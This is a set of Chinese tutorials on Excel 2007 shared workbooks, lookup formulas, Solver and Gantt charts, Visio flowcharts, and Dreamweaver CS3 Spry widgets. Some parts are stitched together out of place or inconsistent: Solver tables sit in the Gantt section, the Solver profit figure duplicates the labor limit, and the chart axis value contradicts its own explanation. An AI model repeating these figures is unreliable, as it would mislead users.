> 小提示：为了提高共享工作簿的安全性，可以在将工作簿设置为共享前，给其设置保护密码，这样其他用户需要关闭修订记录以及取消工作簿的共享时，必须输入密码才可以进行操作。设置时，单击“审阅”菜单下面的“保护并共享工作簿”按钮，在弹出的对话框中，将其中的“以跟踪修订方式共享”复选框，然后在下面的密码框中输入密码，单击“确定”按钮即可。

##### 一、设置共享工作簿

需要将“2007年度各分店销售统计明细表”设置为共享时，启动Excel 2007，打开此工作簿，单击“审阅”菜单，在弹出的浮动工具面板中，单击“共享工作簿”按钮。

在弹出的“共享工作簿”对话框中，将“编辑”选项卡中的“允许多用户同时编辑，同时允许工作簿合并”复选框选中。

同时根据自己工作的需要，还可以进一步设置保存修订记录的天数以及设置共享工作簿的更新频率等选项。设置时，单击“高级”标签，在弹出的“高级”选项卡中选中“保存修订记录”复选项，在其后面输入保存天数，如10天，然后选中“自动更新间隔”复选项，然后在后面输入时间间隔，如10分钟，单击“确定”按钮即可。

当关闭“共享工作簿”对话框后，将弹出一个要求你必须保存此工作簿的对话框，单击其中的“确定”按钮，此时Excel标题栏出现了[共享]文字显示，然后将其保存在公司网络上的一个共享文件夹中。

在使用共享工作簿过程中，可能出现几个用户同时修改某个单元格中的数据，从而出现冲突的问题，这时候会弹出“解决冲突”对话框，提示用户如何解决此冲突问题，比如自己将F4单元格从空白值改为78454，而另外一用户wj则将F4由空白值改为1245，这时候你可以选择接受哪个用户的修改意见，比如接受其他用户即wj的修改意见时，只要单击“解决冲突”对话框中的“接受其他用户”按钮即可。

而需要查看修订情况以及冲突日志时，单击“审阅”菜单下面的“修订”按钮，选择“突出显示修订”命令，在弹出“突出显示修订”对话框中，选择需要查看修订信息的时间（如全部）、修订人（如每个人）等选项，同时为了在屏幕上显示详细的修订信息，则可以选中“在屏幕上突出显示修订”复选框，这样当将鼠标指向某个修改的单元格时，如F4单元格，就会显示此单元格具体的修改信息了，包括修改人、时间、修改值等内容。

> 小提示：如果需要得到全部的修订信息，可以选中“突出显示修订”对话框中的“在新工作表中显示修订”复选框，这样就会创建一个名为“历史记录”的修订信息工作表，在其中详细列举了日期、时间、操作人、工作表、单元格、新值、旧值等信息。

通过上面的实例我们看出，Excel共享工作簿工具对于我们的日常数据统计汇总工作，非常有帮助，特别是在需要多人协同办公方面具有其他办公工具无所比拟的优越性，但是在上面的实例中是完全应用在网络环境中，如果公司没有较好的网络办公环境，则可以通过另外一种共享工作簿方式，即创建共享工作簿副本，然后通过“比较和合并工作簿”工具进行合并汇总即可，具有异曲同工的作用。

#### 实例讲解之十一：精心构思，设计一份精致的工作流程图

在现代的企事业管理工作中，由于存在很多部门，在处理某项具体业务时，所经过的环节比较多，也需要多个不同部门的协作才能完成工作，这时候为了明确各自的职责范围以及工作如何进行下去，就需要设计一份精致的工作流程图。何进行，往往需要制作工作流程图来表示业务的具体操作过程。以前大家一般会使用Word的图表功能来绘制此类的流程图，但是制作出的流程图比较简单，调整起来也很麻烦，而使用Office的组件Visio 2007，能设计出一份专业标准的工作流程图来，并且Visio的操作界面与Word非常相似，因此使用起来也觉得很简单，下面就以制作某公司的采购原材料业务流程图为例，来看看如何利用Visio制作流程图。

##### 一、规划好业务流程是设计流程图的前提

在使用Visio绘制采购业务流程图前，一般要根据公司日常采购业务的实际情况，简单规划一下此业务的大致流程，这样在绘制流程图才能有的放矢，比如这家公司的采购业务流程基本上是这样的：提交采购计划→公司核准→供应商供货→运输→品管中心验货→入库→签字报销→会计核算→付款给供应商，而在此流程中，如果所采购原材料未通过品管中心检验合格，则会被拒绝而退货。

##### 二、利用Visio，设计流程图

需要绘制流程图时，启动Visio 2007，执行“文件→新建→流程图→工作流程图”菜单命令，将会弹出一个新的工作流程图编辑窗口。在这个窗口的左侧是形状快捷窗格，其中存储了大量的流程图形状图标，如工作流对象、工作流步骤、部门、边框和标题等，而在右侧则为流程图编辑区。绘制时只要将这些图标添加到流程图编辑区中，然后进行设置图标之间的连接线、添加注释、修改背景等操作。

-   1) 添加形状图标
    根据前面构思的流程图草稿，首先要添加一些流程图形状图标，这个都可以通过左侧的形状窗格来完成，可以根据自己的喜好而选择不同形状图标，来分别代表工作流程图中不同的部门、对象以及步骤。
    比如添加“提交采购计划”图标时，单击左侧“形状”窗格中的“工作流步骤”选项，从其下面的形状列表中，单击一个能够与“提交采购计划”步骤意义相同或者相似的图标，如“提议”，然后将其拖动到右侧编辑区中工作流程图的起始位置，如左上角。采用同样的方法，在编辑区中添加公司核准、供应商供货、运输等其他图标，并适当调整其位置（图11-1）。

> 小提示：如果在左侧的形状窗格中找不到自己需要的图标，可以在“搜索形状”下面的文本框输入关键词，如“仓库”，然后按下回车键，即可弹出一个“形状搜索的本地搜索”提示框，单击其中的“是”按钮，即可在形状窗格中显示所有与“仓库”相关的图标了（图11-2）。

-   2) 为流程图图标添加说明、注释以及连接线
    为了说明工作流程中的一些关键环节，必须在一些流程图标上添加必要的说明文字，比如在第一个图标上添加“提交采购计划”文字，执行“插入→文本框→水平”命令，然后拖动鼠标在流程图的第一个图标附近画出一个文本框，在其中输入相应文字，并选择一种填充颜色。
    由于工作流程图编辑区域有限，如果添加过多的文本框会使得流程图显得非常拥挤，这时候对于一些内容较多的流程说明，可以采用添加注释的方法，比如对领导批准采购计划环节的说明时，单击“公司核准”图标，执行“插入→注释”命令，在随后弹出的注释编辑框输入说明文字，如“批采购计划后，必须经领导批准，批准日为每月的10.20.30日！”，这样在流程图中只会显示一个注释图标，而单击此图标时，就会显示所有的说明文字了。
    当图标、说明都编辑完毕后，就需要为图标之间添加连接线了，连接线显示了流程图中两个图标之间的工作次序以及相互关系。添加连接线时，从左侧的形状窗格中选择一种箭头形状，如“可变箭头”，然后将其拖动到两个需要连接的图标中的第一个图标上，在这个图标周围即可显示四个小箭头，然后单击与相连图标相近的箭头即可（图11-3）。

##### 三、修饰流程图

一份专业的工作流程图，不仅仅要专业，而且要美观大方，可以为其添加了背景、边框。添加背景时，从“形状”窗格中的“背景”中，选择一种合适的背景图案，如web背景，然后将其拖动到流程图编辑区即可；添加边框时，从“边框和标题”中，选择相应的边框方案，如图形化边框2，将其拖入流程图编辑区内，然后在标题框中输入公司名称即可。

为了流程图整体上更加协调，可以应用一种主题方案，执行“格式→主题”命令，在弹出的“主题颜色”任务窗格中，选择一种主题颜色效果，如“原点”，然后单击此任务窗格中的“主题效果”选项，在弹出的“主题效果”任务窗格中，选择一种比较漂亮的主题效果方案，如“细竖条纹”即可。这样一番修饰后，是不是发现所做的工作流程图变得很专业、很精致了？！

> 小提示：为了便于以后重新修改刚才所做的工作流程图，不仅仅可以打印保存起来，还可以将其保存为一个*.vsd格式文件，这样在以后的编辑工作中，使用Visio直接打开予以编辑即可。

在以上的实例中，我们仅仅是利用Visio制作了一份流程图，实际上利用Visio还可以设计工厂布局图、家居图、网络结构图、甘特图等多种专业图表，大家可以在以后的实际工作中多多发挥其潜力，以为我们的日常工作提供更大的便利条件！

#### 实例讲解之十二：另辟蹊径，利用Excel制作员工卡

你是否遇到这样的问题：公司为了加强企业管理，要制作一些员工卡。这种工作如果委托专业的设计公司，就需要花费不菲的费用，若自己设计也非常繁琐，特别是对于大量的员工卡打印工作。怎么办呢？实际上，员工资料一般情况下都是存储在Excel工作簿中，我们可以在其中设计员工卡模板，然后利用Excel的一些函数以及其他工具，就可以实现快速打印员工卡了，而且可以根据公司安排，可以打印任意的员工卡！下面就以利用某公司的“2007年度公司员工明细表.xlsx”为例，来介绍其具体制作过程。

启动Excel 2007，打开“2007年度公司员工明细表.xlsx”，在其中员工个人信息存储在“员工信息明细”工作表中，而且在此表G列的“照片”中添加了每个员工的个人照片（图12-1）。

| 编号 | 姓名   | 部门   | 岗位   | 性别 | 学历 | 照片 |
|------|--------|--------|--------|------|------|------|
| 0001 | 张玉   | 生产部 | 操作员 | 女   | 中专 | Ω    |
| 0002 | 夏友   | 生产部 | 操作员 | 男   | 中专 | Ω    |
| 0003 | 胡亮   | 财务部 | 统计员 | 男   | 大学 | Ω    |
| 0004 | 莫中友 | 财务部 | 经理   | 男   | 大学 | Ω    |
| 0005 | 吴芮   | 销售部 | 业务员 | 女   | 中专 | Ω    |
| 0006 | 李霞   | 销售部 | 业务员 | 女   | 中专 | Ω    |

##### 一、设计员工卡模板以及插入图片控件

既然是制作员工卡，必须创建一个员工卡模板工作表，新建一个“员工卡打印”工作表，在其中按照一般员工卡的布局大小要求，在C2:E15单元格区域内输入员工卡的固定内容，如公司名称、徽标、姓名、部门、岗位等内容，其中存储员工姓名的单元格为E11，同时为此区域选择一种填充颜色。

由于需要在员工卡中添加员工个人照片，因此必须先在员工卡模板中新增加一个图片控件。单击图片控件时，单击顶部功能区下面的快速访问工具栏上的“控件”按钮，从下拉列表中选择“插入”选项，在弹出的“ActiveX控件”列表中选择“图像”控件，然后拖动鼠标在员工卡模板中的公司名称与姓名之间划出一个图像控件（图12-2）。

> 小提示：如果在快速访问工具栏上没有显示“控件”按钮，可以使用鼠标右击快速访问工具栏，在弹出的快捷菜单中选择“自定义快速访问工具栏”命令，在弹出的“Excel选项”对话框中，从“从下列位置选择命令”列表框中选择“开发工具 选项卡”，然后从下面的命令列表框中选择“插入控件”命令，然后单击右侧的“添加”按钮，单击“确定”按钮即可。

##### 二、定义源信息表引用区域名称

由于在员工卡制作过程中，需要引用源员工信息表中的一些单元格区域，可以将“员工信息明细”工作表某些区域定义名称，包括员工姓名以及照片数据。

定义员工姓名时，单击“公式”菜单，从弹出工具面板“定义的名称”中选择“定义名称”按钮，在弹出的下拉命令列表中选择“定义名称”选项，然后在弹出的“新建名称”对话框中，在“名称”文本框中输入“员工姓名”，而在“引用位置”中输入员工姓名所在的单元格区域，如：`=员工信息明细!$B$3:$B$14`，单击“确定”按钮。

按照以上操作步骤，再新建一个重定义名称“员工个人照片”，在其引用位置中输入以下公式：`=INDEX(员工信息明细!$G:$G,MATCH(员工卡打印!$E$11,员工信息明细!$B:$B,))`，此公式的目的是使用MATCH函数，根据“员工卡打印”明细表中E11单元格显示的员工姓名，从员工信息明细B列中返回到相同的名字，并引用其在G列中所存储的照片。

> 小提示：如果在某个工作簿定义名称较多，查找修改起来就比较麻烦，而通过Excel的名称管理器就可以完成所有定义名称的编辑、删除以及新建工作，启用“名称管理器”时，只要单击“定义的名称”中的“名称管理器”即可，刚才创建的“员工姓名”、“员工个人照片”均在其中。

##### 三、制作员工卡

在前面工作的基础上，就可以通过应用函数，根据E11单元格中的员工姓名，将“员工信息明细”表中每个员工的个人信息，导入到员工卡中的相应单元格中，从而实现快速制作员工卡。

由于需要在员工卡模板中的E11单元格中输入员工姓名，为了实现快速输入，可以利用前面编辑的定义名称“员工姓名”，采用下拉列表框式输入。单击E11单元格，然后单击“数据”菜单，在随之弹出的“数据工具”工具面板中，单击“数据有效性”按钮，从弹出下拉命令菜单中选择“数据有效性”选项。在弹出的“数据有效性”对话框中，从“允许”列表框中选择“序列”选项，在“来源”框中输入公式“=员工姓名”，单击“确定”按钮。同时单击插入的图像控件，在其编辑栏中输入公式：`=员工个人照片`。

在存储员工部门内容的E12单元格内输入公式：`=IF(ISERROR(VLOOKUP($E$11,员工信息明细!$B$3:$G$14,2,FALSE)),"",VLOOKUP($E$11,员工信息明细!$B$3:$G$14,2,FALSE))`，此公式就是根据E11中的员工姓名，查找在员工信息明细!$B$3:$G$14中相同的内容，并返回到第2列中的内容，即部门名称，然后在下面的E13（岗位）、E14（性别）、E15（学历）单元格中分别按照以上模式输入相应的公式，只不过是修改一下前面公式中的列号即可，比如在员工信息明细表中“学历”是位于第5列，因此输入公式：`=IF(ISERROR(VLOOKUP($E$11,员工信息明细!$B$3:$G$14,5,FALSE)),"",VLOOKUP($E$11,员工信息明细!$B$3:$G$14,5,FALSE))`即可。

这样，当需要打印某个员工的员工卡时，只需要单击E11单元格，从弹出的员工列表框中选择相应的员工姓名，如张玉（图12-3），其相应的信息以及照片就会自动添加到员工卡对应位置中，然后进行打印，从而完成员工卡。

## 实例讲解之十二：利用规划求解，合理安排生产计划

你在企业经营管理过程中可能会遇到这样的棘手问题，公司已经给你设定经营生产目标，如何用尽可能少的人力、物力、财力资源去完成给定的任务，或者已经给你固定的人力、物力、财力资源，如何完成尽可能多的工作，其实这两个问题归结到一点都是生产经营的最优化原则。对于这些复杂问题，如果采用传统的手工计算，则需要浪费大量的精力，即便是采用计算机辅助计算，也往往得不到正确结果。而采用Excel的规划求解工具，就可以在给定的现有条件、约束条件以及确定的目标情况下，非常方便地得到最佳解决方案。下面就以某公司利用规划求解工具，在利润最大化目标下，确定2007年12月份的生产计划为例，来了解Excel规划求解工具在生产经营管理决策过程中的应用方法。

##### 一、进行规划求解的前提，输入已知生产条件

启动Excel 2007，新建一个工作簿名为“2007年12月份车间产量计划.xlsx”，在其中的sheet1工作表的A3:F7单元格区域内，建立一个表格，输入此公司2007年12月份的生产已知条件，具体如下：此公司共有1、2两个车间，分别生产甲、乙、丙、丁四种产品，其中1车间生产甲、乙两种产品，甲产品每吨耗用A材料235kg，耗用B材料145kg，耗用人工210小时，单位利润为321元，而乙产品每吨耗用A材料256kg，耗用B材料154kg，耗用人工209小时，单位利润为358元；2车间生产丙、丁两种产品，丙产品每吨耗用A材料265kg，耗用B材料149kg，耗用人工189小时，单位利润为398元，而丁产品每吨耗用A材料235kg，耗用B材料146kg，耗用人工180小时，单位利润为321元。同时在E9:E11单元格区域内输入该公司的12月份的原料供应限额情况：A材料189000kg，B材料为150000kg，可用总工时为32500小时（图13-1）。

##### 二、确定预计耗用总量以及利润目标

由于此公司要求是在利润最大化的条件下，规划12月份的各种产品产量，而利润=各种产品产量×单位利润，原料用量=各种产品产量×单位耗用材料量，工时用量=各种产品产量×单位耗用工时，因此在sheet1表内的G3单元格输入“计划产量”列，用来存储各种产品规划求解后的预计产量。同时在此表格的底部输入“预计耗用A材料总量”、“预计耗用B材料总量”、“耗用工时总量”、“预计利润”四个项目，并根据前面的公式，在这几个项目后面对应的E12、E13、E14、E15单元格内输入公式：

```
=SUMPRODUCT(C4:C7,G4:G7)
=SUMPRODUCT(D4:D7,G4:G7)
=SUMPRODUCT(E4:E7,G4:G7)
=SUMPRODUCT(F4:F7,G4:G7)
```

需要注意的是，在这里使用了SUMPRODUCT函数，其作用为在给定的几组数组中，将数组间对应的元素相乘，并返回乘积之和，比如求预计耗用A材料总量的`=SUMPRODUCT(C4:C7,G4:G7)`公式，就是甲乙丙丁四种产品单位耗用量（C4:C7单元格区域）分别与各种预计产品产量（G4:G7单元格区域）相乘，然后相加。

##### 三、在Excel 2007中启用规划求解工具

在默认情况下，从Excel 2007的菜单命令中，并不能找到规划求解这个工具选项，因为其是一个Microsoft Office Excel加载项，要在Excel中使用它，需要先进行加载，启用方法为：单击左上角的“Office 按钮”，从弹出的菜单中选择“Excel 选项”命令，在弹出的“Excel 选项”对话框中，选择左侧的“加载项”选项，然后单击底部的“转到”按钮。在弹出的“加载宏”对话框的“可用加载宏”列表框中，选中“规划求解加载项”选项，单击“确定”按钮。

用规划求解工具时，只需要单击“数据”菜单，在弹出的“分析”组中，单击其中的“规划求解”按钮即可。

##### 四、应用规划求解，快速计算最佳生产计划方案

需要进行规划求解时，单击“数据”菜单中的“规划求解”按钮，弹出的“规划求解参数”窗口，在这个窗口中，主要是设置目标单元格、可变单元格以及约束条件，具体如下：所谓的目标单元格，也就是存储进行规划求解方案目标数值的单元格，在此例中是存储预计利润的E15单元格，因此单击“设置目标单元格”右侧的选择按钮，选择sheet1表中的E15单元格即可。可变单元格是指规划求解中的变量，在此例中就是指计划产量，因此单击“可变单元格”右下角的选择按钮，选择计划产量所在的单元格区域G$4:G$7。约束条件是指规划求解受到哪些条件限制，这次生产计划的限制条件为材料以及工时，因此单击“约束”右侧的“添加”按钮，在弹出的“约束条件”对话框中，依次将以下约束条件输入，

-   预计耗用A材料总量≤可用A材料
-   预计耗用B材料总量≤可用B材料
-   预计耗用工时总量≤可用工时

输入约束条件时，如预计耗用A材料总量≤可用A材料，只要单击“约束条件”对话框中“单元格引用位置”右侧的选择按钮，选择预计耗用A材料总量所在的E12单元格，从中间的符号列表框中选择≤符号，然后单击“约束值”右侧的选择按钮，选择可用A材料所在的单元格E9，单击“确定”按钮即可。

在规划求解窗口中，将以上选项设置完毕，检查无误后，单击“求解”按钮，即可弹出一个“规划求解结果”对话框，规划求解的结果数据会立刻显示在原工作表中。通过这个对话框还可以生成更加详细的规划求解报告，包括“运算结果报告”、“敏感性报告”、“极限值报告”等，需要使用这三种报告时，只要单击选中，最后单击“确定”按钮，就可以将规划结果保存在原工作表中，在生成的三个报告中，可以查询到详细的规划求解各种数据了，例如从“运算结果报告”中，可以看出在12月份中，甲产品生产43.777吨，乙产品生产43.5690吨，丙产品生产39.3997吨，丁产品生产37.5235吨，能够达到最大利润32500.00元；从而为企业的生产经营提供非常重要的决策依据了（图13-2）。

# 编制精确甘特图，准确控制任务进展

每当开始一个新的工作项目时候，你是如何来制定项目计划进度表呢？有的是在传统笔记本做个项目的计划表，而有的朋友则借助一些专业的项目管理软件，如Project、Visio，比较起来，前者太简单，不能够系统化，而后者则需要安装专业软件，也不是很容易上手的。而现在我们使用大家最常使用的Excel就可以制作出用于项目管理的甘特图来，下面就以使用Excel来制作某公司2008年1月份的新技改项目甘特图为例，来看Excel在项目管理中的特殊作用。

##### 什么是甘特图？
甘特图(Gantt Chart)由亨利甘特于1910年开发，他通过条状图来显示项目进度和其他时间相关的系统进展的内在关系随着时间进展的情况。其中，横轴表示时间，纵轴表示活动(项目)。线条表示在整个期间上计划和实际的活动完成情况。甘特图可以直观地表明任务计划在什么时候进行及实际进展与计划要求的对比。

单元格（最大值）
| 单元格 | 名字 | 初值 | 终值 |
|--------|------|------|------|
| $B$15 | 设计图纸 | 0 | 32500 |

单元格（最小值）
| 单元格 | 名字 | 初值 | 终值 |
|--------|------|------|------|
| $G$4 | 甲产品计划产量(吨) | 0 | 43.7750125 |
| $G$5 | 乙产品计划产量(吨) | 0 | 43.56903696 |
| $G$6 | 丙产品计划产量(吨) | 0 | 39.33975113 |
| $G$7 | 丁产品计划产量(吨) | 0 | 37.5235725 |

2008年1月份新技改工程计划进度表
| 任务内容 | 开始时间 | 持续时间 | 完成时间 | 备注 |
|----------|----------|----------|----------|------|
| 讨论技改计划 | 2008-1-6 | 2 | 2008-1-8 |  |
| 设计图纸 | 2008-1-9 | 3 | 2008-1-12 |  |
| 送交技改报告 | 2008-1-10 | 2 | 2008-1-12 |  |
| 成立技改项目小组 | 2008-1-11 | 3 | 2008-1-14 |  |
| 采购材料 | 2008-1-13 | 4 | 2008-1-17 |  |
| 进行技改 | 2008-1-18 | 10 | 2008-1-28 |  |
| 项目竣工验收 | 2008-1-25 | 2 | 2008-1-27 |  |
| 项目总结 | 2008-1-26 | 3 | 2008-1-29 |  |

##### 一、创建工作表，输入项目进度情况

启动Excel 2007，新建一个工作簿“2008年1月份新技改工程计划进度表”，在其中的sheet1工作表中的B3:F11单元格区域内，输入此次技改项目的每个阶段的项目内容（如：讨论技改内容、设计图纸等）、开始时间、持续时间、完成时间以及备注等内容。其中在输入讨论技改内容完成时间内容的D4中，只需要输入公式：=B4+C4，然后将此公式复制到下面的同列中，即可自动计算出每个项目步骤的完成时间（图14-1）。

##### 二、利用图表工具，制作甘特图

使用Excel编制甘特图，主要包括选择图表类型、确定数据源以及修改坐标轴等操作，具体如下：

- 1. 选择图表类型
使用鼠标单击sheet1表中的任意空白单元格，然后单击“插入”菜单，在弹出的“图表”组中选择“条形图”，从弹出的图表类型列表中，选择其中的“三维条形图”下“三维堆积条形图”，即可在此工作表中插入一个空白图表框。

- 2. 确定数据源
单击插入的空白图表框，从弹出的“图表工具”菜单下面的“设计”子菜单中的“数据”组中，单击“选择数据”工具按钮，在弹出的“选择数据源”窗口中，单击“图例项（系列）”中的“添加”按钮。
在随之弹出的“编辑数据系列”对话框中，单击“系列名称”右下角的选择按钮，选择项目进度计划表中“开始时间”文字内容所在的单元格Sheet1!$C$3；单击“系列值”右下角的选择按钮，选择项目进度计划表中“开始时间”系列值所在的单元格区域Sheet1!$C$4:$C$11，单击“确定”按钮。采用同样方法，将“持续时间”文字内容以及其系列值也添加进去。同时单击“水平（分类）轴标签”中的“编辑”按钮，在弹出的“轴标签”对话框中，将项目步骤所在的单元格区域Sheet1!$B$4:$B$11添加进去，然后单击“确定”按钮。

- 3. 修改坐标轴以及系列格式
选择刚才制作图表的纵坐标轴，单击“格式”菜单中“当前所选内容”组中的“设置所选内容格式”选项，在弹出的“设置坐标轴格式”对话框中，单击“坐标轴选项”，然后在弹出的列表中，选中其中的“逆序类别”选项，单击“关闭”按钮。
接着单击插入图表中的“开始时间”系列，从“格式”菜单的“当前所选内容”组中，单击“设置所选内容格式”选项，在弹出的“设置数据系列格式”对话框中，单击“填充”，然后在弹出的列表中，选中“无填充”选项，单击“关闭”按钮。需要注意的是，这样修改后，图表中的“开始时间”图例显示空白，而实际上在甘特图中也不需要图例，因此将其中的“开始时间”、“持续时间”图例都删除即可。

- 4. 修改X轴的最小、最大值
在默认情况下，所创建的图表X轴最小值与项目计划进度的起始日期差距太大，如此项目的开始日期是2008-1-6，而图表的最小值是2007-12-24，从而导致所作的甘特图中的空白区域太多。
修改X轴的最小值时，由于Excel图表中的系统日期值是采用数值形式表示的，因此必须知道项目开始日期对应的数值，因此单击项目的开始日期所在的单元格B4，然后单击“开始”菜单，从弹出的“数字”组中选择“千位分隔样式”按钮，此时B4单元格中的日期2008-1-6，自动会转换为数字格式39,453.00。需要注意的是，当知道开始日期的数值型数字后，还必须将其恢复为日期格式。
然后选择图表中的X轴，从“格式”菜单的“当前所选内容”组中，单击“设置所选内容格式”选项，在弹出的“设置坐标轴格式”对话框中，选中“坐标轴选项”中“最小值”后面的“固定”选项，在其后面输入一个比项目开始日期稍早的日期数值型数字即可，如35452.0，单击“关闭”按钮。这样一个比较标准的甘特图就做出来了（图14-2）。



##### 三、修饰甘特图，让其更美观

以上所做的甘特图还比较粗糙，而且没有标题，需要让其变得漂亮起来很简单！单击创建的甘特图，单击“图表工具”菜单中的“布局”子菜单，然后单击“标签”组中的“图表标题”按钮，从弹出的下拉命令选择一种标题格式，如“图表上方”，这样就在图表上方添加了一个标题文本框，在其中输入甘特图的标题即可，如“2008年1月份新技改工程计划进度图”。最后单击“图表工具”菜单中的“格式”子菜单，从弹出的“形状样式”组中选择一种自己喜欢的样式，如“强烈效果-强调颜色5”，呵呵你会发现甘特图就变得色彩纷呈了，定会让同事惊讶不已，原来甘特图也可以做得如此美观。

### 用Dreamweaver CS3制作AJAX网页全攻略

◇文/星星点灯

网页制作技术日新月异，新技术层出不穷，当很多用户还沉浸在Web1.0时代津津乐道时，Web 2.0已经走到了我们的面前。AJAX作为Web 2.0应用的一个重要组成部分，成了当前最热门的技术，利用AJAX技术可以创建交互式网页，给用户提供良好的体验，因此，它一出现就受到了广大用户的欢迎，成为网页开发者追捧的对象。然而AJAX网页的开发需要具备JavaScript、CSS、XML、XHTML知识，对许多网页开发者来说难度较大。为了解决这个问题，提高网页开发者的效率，Adobe公司最新版的网页设计工具Dreamweaver CS3中专门集成了几个用来开发AJAX网页的构件，利用这些构件，用户不用书写一句代码，只需简单地用鼠标进行拖放操作，就可以设计出令人羡慕的AJAX网页，给你的网站增添光彩。下面，我们就来了解如何用Dreamweaver CS3开发AJAX网页。

#### 一、AJAX和Spry简介

### 1.什么是AJAX
在进行AJAX网页开发之前，我们首先来了解一下什么是AJAX技术。
AJAX是Asynchronous Javascript and XML的缩写，翻译成中文就是异步Javascript和XML。所谓异步就是可以经由超文本传输协议（http）向服务器发出请求，并且在等待该响应时继续处理另外的数据。AJAX的工作原理相当于在用户和服务器之间加了一个中间层，使用户操作与服务器响应异步化。并不是所有的用户请求都提交给服务器，像一些数据验证和数据处理等，都交给AJAX引擎自己来做，只有确定需要从服务器读取新的数据时再由AJAX引擎代为向服务器提交请求。例如，用户以调用一个服务器端脚本从一个数据库中以XML方式检索数据，把数据发送到存储在一个数据库的服务库脚本，或者简单地装载一个XML文件以填充你的Web站点而不需要刷新该页面。
AJAX并不是一种新的语言或技术，它实际上是几项技术按一定方式组合在一起，在共同的协作中发挥各自的作用，每种技术都有其独特之处，合在一起就成了一个功能强大的新技术。

- AJAX主要包含了以下几种技术：
- 使用基于Web标准的XHTML + CSS呈现。
- 使用文档对象模型（DOM）进行动态显示及交互。
- 使用XML和XSLT进行数据交换及相关操作。
- 使用XMLHttpRequest进行异步数据查询、检索。
- 使用Javascript绑定和处理所有数据。



### 2.什么是Spry
由于AJAX开发需要具备较多的Javascript知识，而且要手工书写大量的代码，所以不是一般用户就能随便使用的。为了减轻学习的难度，提高AJAX网页的开发效率，Adobe开发了一种叫Spry框架的AJAX技术，并且将它集成在Dreamweaver CS3中，这样就可以让普通用户也能迅速开发出具有良好用户体验的AJAX网页。
Spry框架是Adobe出品的轻量级的支持AJAX的Javascript库，它以HTML为中心，使用最基本的HTML、CSS和Javascript来实现丰富的Web页面体验。使用Spry框架可以显示XML数据，并创建用来显示动态数据的交互式页面元素，而无需刷新整个页面（图1）。虽然这些文件存放在服务器上，实际上是被加载到浏览器中运行的。框架的用户将所有需要的文件链接到HTML文档中，以使用不同的组件，来获得更丰富的用户体验。

- Spry框架包括四种不同的工具：
- Spry数据：将XML数据添加到任何Web页面上，并且允许以AJAX样式交互显示数据，主要是通过Spry数据集来实现这一功能。
- Spry表单工具：将表单元素，像文本域、列表等，与Javascript验证功能和友好的用户错误信息提示结合起来，它包括验证文本域构件、验证文本区域构件、验证选择构件、验证复选框构件。
- Spry布局工具：提供一系列精致的布局控件，包括选项卡式面板构件、菜单栏构件、可折叠面板构件、折叠构件。
- Spry效果：是一个视觉增强功能，它用新级的功能来交互式地给页面元素添加特殊显示效果，可以将Spry效果应用于使用Javascript的HTML页面上几乎所有的元素。Spry效果包括显示/渐隐、高亮颜色、向上遮帘/向下遮帘、上滑/下滑、增大/收缩、晃动、挤压。

为了便于AJAX网页的开发，Adobe将构件的概念引进了Spry框架。构件是AJAX框架的基本功能，构件被称为下一代的页面UI的AJAX。一个构件是由HTML、CSS、Javascript共同封装的系统用户界面。在Dreamweaver CS3中，Spry构件是一个页面元素，Spry框架支持一组用标准的HTML、CSS和Javascript编写的可重用构件。常用的构件有菜单栏、选项卡式面板、折叠构件等，这些对象很难建立，需要高级的编码能力，Adobe公司预先做好这些构件，并且将它们集成在Dreamweaver CS3中，这样就可以让普通用户无需进行复杂的编码操作也能方便快捷地建立起AJAX网页，实现复杂的交互。

#### 二、使用Spry构件

Dreamweaver CS3中共集成了8种Spry构件，即菜单栏构件、折叠构件、可折叠面板构件、选项卡式面板构件、验证文本域构件、验证文本区域构件、验证选择构件、验证复选框构件。这些构件可以实现页面布局和表单验证的多种功能，下面我们就逐一来了解每种构件的使用方法。

##### 1. 菜单栏构件
每一个站点都需要一个导航条来引导访问者浏览网站，例如，一个购物站点，它可能有指向所销售的书籍、DVD或电子产品目录的链接，通过这些链接，用户就可以快速到达要访问的内容。Dreamweaver CS3中提供的Spry菜单栏构件就是帮助用户建立导航条的一个工具，利用菜单栏构件可以创建一个水平或垂直的导航条（图2），其中，每一个菜单按钮可以支持二级弹出子菜单，其中顶级菜单和子菜单可以包含任意多个子菜单项。当菜单项添加到网页中后，用户可以通过属性检查器调整菜单、添加更多的顶级菜单或子菜单、重新命名菜单项、添加链接、修改样式、添加提示。



#### (1)向网页中添加菜单栏
新建一个HTML网页，然后将它命名保存。将光标移到网页中要插入菜单栏的位置，在“插入”工具条的“Spry”标签页中单击“Spry菜单栏”图标，或者单击“插入记录→Spry→Spry菜单栏”命令。出现“Spry菜单栏”对话框，根据需要选择“水平”或“垂直”布局。单击“确定”按钮，Dreamweaver就在网页中插入一个默认的菜单栏。

#### (2)编辑菜单栏
Dreamweaver插入到网页中的默认菜单栏并不符合我们的要求，用户需要进行修改。通过属性检查器可以改变和添加链接、修改菜单项的名称、添加提示等操作。
Spry菜单共支持三级菜单，即一个顶级菜单，每个顶级菜单可以有二级子菜单，在属性检查器中，Dreamweaver用三个列表来显示这些三级菜单，每个列表中都有一组编辑菜单项的工具，如添加、删除、移动。

#### (3)改变菜单栏的外观
尽管使用属性检查器可以对菜单栏进行简单的编辑，但是属性检查器并不支持自定义样式设置，如果想根据自己的喜好设置菜单栏的样式，可以通过“CSS样式”面板修改菜单栏的CSS规则来实现。
在网页中插入菜单栏构件后，在网站根目录的SpryAssets目录中会生成一个Sprymenubarhorizontal.css（水平）或Sprymenubarvertical.css（垂直）样式表文件，通过修改该样式表中的CSS规则可以自定义菜单栏构件的外观。修改菜单栏外观的一般过程是这样的：确定要修改的项目内容，定位到控制该内容的样式，然后编辑样式。具体操作步骤如下：
单击“窗口→CSS样式”，打开CSS样式面板。在CSS样式面板中单击“全部”按钮切换到所有（文档）模式。
在“所有规则”列表中单击加号按钮展开Sprymenubarvertical.css（垂直）或Sprymenubarhorizontal.css（水平）样式表（图3）。

在展开的样式表中，双击要修改的样式名称，打开CSS规则定义窗口（图4）。

根据需要在CSS规则定义窗口中编辑样式，然后单击“确定”按钮完成编辑。在CSS规则定义窗口中修改样式后，Dreamweaver会自动打开Sprymenubarhorizontal.css（水平）或Sprymenubarvertical.css（垂直）样式表，将样式表文件和插入菜单栏的网页保存，然后就可以按F12键浏览效果了。表1列出了要修改的菜单栏样式内容及相应的CSS规则。

##### 2. 选项卡式面板构件
